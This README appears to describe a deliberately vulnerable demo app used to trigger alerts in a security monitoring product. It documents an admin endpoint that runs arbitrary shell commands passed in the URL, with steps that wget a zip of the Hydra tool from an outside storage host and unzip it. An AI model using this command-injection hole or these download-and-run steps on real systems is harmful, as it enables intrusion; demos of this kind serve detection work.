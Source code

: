 # Hydra scenario

This application lets you write messages, whatever they are (it is certainly possible to hack the message form by itself).
This is entirely managed in-memory, so dev team decided to add endpoints where you can check your log file and decide to load messages directly from the log in case of a restart.

Hitting the http://{yourhost}:{port}/ will let you add messages. 

Hitting http://{yourhost}:{port}/admin lets you start the actual hack by passing command

# Steps

1. Start browsing the app at http://{yourhost}:{port}/, explaining this is the same scenario as having [EVAL command available in Redis](https://redis.io/commands/eval).
2. Then move to the admin page and show the tail or cat command. 
3. Explain you have those links to decide if you'll hydrate messages from the log file or not. But there is an issue as the cat/tail link let you run arbitrary command on the host.
4. Type in the url bar http://{yourhost}:{port}/admin/ops?cmd=wget&args=https://storage.googleapis.com/nwlw-raw-data/sapp.zip . This will download a Hydra pre-packed zip file. (should triggered the 1st alert in LW)
5. Move to http://{yourhost}:{port}/admin/ops?cmd=unzip&args=sapp.zip
6. Last step you can run it using the URL ... Still progressing on packaging the zip file to effictively run it. Instructions to run hydra will follow

